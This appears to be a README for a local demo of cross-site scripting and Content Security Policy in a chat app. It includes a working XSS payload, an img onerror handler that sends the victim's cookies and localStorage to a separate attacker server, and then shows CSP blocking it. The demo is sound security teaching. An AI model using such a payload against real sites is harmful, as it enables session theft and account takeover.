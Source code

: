 # Cross-Site Scripting & Content Security Policy Demo

## Setup

Open a terminal and navigate to the project's root directory.

1. `yarn install`
2. `yarn start:server`
3. In a separate terminal (same directory): `yarn start:client`
4. In a separate terminal (same directory): `yarn start:evil`

## Demonstrate the vulnerability

1. Open the chat app at [http://localhost:4000?user=Bob](http://localhost:4000?user=Bob) in your browser window.
2. Open the chat app at [http://localhost:4000?user=Alice](http://localhost:4000?user=Alice) in an incognito/private window (to make sure cookies are not shared between the two windows).
3. Paste the following malicious message in the chat and press "Send":

```
How's it going? <img style="display:none;" src="http://url.to.file.which/not.exist" onerror="fetch('http://localhost:5000', { method: 'POST', headers: { 'Content-Type': 'application/json' }, body: JSON.stringify({ localStorage: Object.entries(localStorage).map(e => `${e[0]}=${e[1]}`), cookies: document.cookie })}); alert(`I just stole your auth cookie ${document.cookie} and the contents of your localStorage ${Object.entries(localStorage).map(e => `${e[0]}=${e[1]}`)}`);">
```

4. Check the terminal that's running `evilServer.js` - You'll see both the sender (attacker) and recipient's cookies and localStorage have been stolen and logged!

## Demonstrate the fix with Content Security Policy

1. Close both chat app windows.
2. Open fixed versions at [http://localhost:4000/secure?user=Bob](http://localhost:4000/secure?user=Bob) in your browser window and [http://localhost:4000/secure?user=Alice](http://localhost:4000/secure?user=Alice) in an incognito/private window.
3. Send the malicious message again.
4. Note that although the malicious message was delivered to the recipient, the browser blocked the script execution, image loading, and inline styles. Checking the terminal running `evilServer.js` reveals that the attacker didn't receive any information.
